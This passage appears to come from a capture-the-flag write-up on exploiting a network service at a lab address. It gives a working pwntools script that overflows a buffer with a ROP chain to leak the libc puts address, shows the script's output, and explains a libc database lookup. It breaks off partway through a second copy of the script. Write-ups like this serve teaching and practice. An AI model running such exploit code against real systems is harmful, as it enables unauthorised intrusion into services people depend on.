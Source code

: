 I can see the address in there before the string “: not found”. I’ll add some code to collect it, and turn off debug output:

```

#!/usr/bin/env python

from pwn import *

context(os="linux", arch="amd64")
#context(log_level='DEBUG')

junk = "A"*120

got_puts = p64(0x404018)
plt_system = p64(0x401040)
pop_rdi  = p64(0x40120b)
main     = p64(0x40115f)
payload = junk + pop_rdi + got_puts + plt_system + main

p = remote("10.10.10.147", 1337)
p.recvline()
p.sendline(payload)
leaked_puts = u64(p.recvline().strip()[7:-11].ljust(8,"\x00"))
log.info("Leaked puts address: %x" % leaked_puts)

```

And it gives the address:

```

root@kali# ./pwn_safe-m1_stg1.py 
[+] Opening connection to 10.10.10.147 on port 1337: Done
[*] Leaked puts address: 7ffa1cac8f90
[*] Closed connection to 10.10.10.147 port 1337

```

That address will be different each time, but the bottom 12 bits (or 1.5 bytes or 3 nibbles or 3 hex characters), in this case f90, will be constant. I can look them up in something like [this libc database](https://libc.nullbyte.cat/?q=puts%3Af90&l=libc6_2.24-11%2Bdeb9u4_amd64):

![1571339638972](https://0xdfimages.gitlab.io/img/1571339638972.png)

I assume it’s the only 64-bit one (since this is an x64 binary). Now I have the offset to puts, so I can find the libc base, and then add the offset to the `/bin/sh` string, to get that address.

The code looks like:

```

#!/usr/bin/env python

from pwn import *

context(os="linux", arch="amd64")
#context(log_level='DEBUG')

junk = "A"*120

got_puts = p64(0x404018)
plt_system = p64(0x401040)
pop_rdi  = p64(0x40120b)
main     = p64(0x40115f)
payload = junk + pop_rdi + got_puts + plt_system + main

p = remote("10.10.10.147", 1337)
```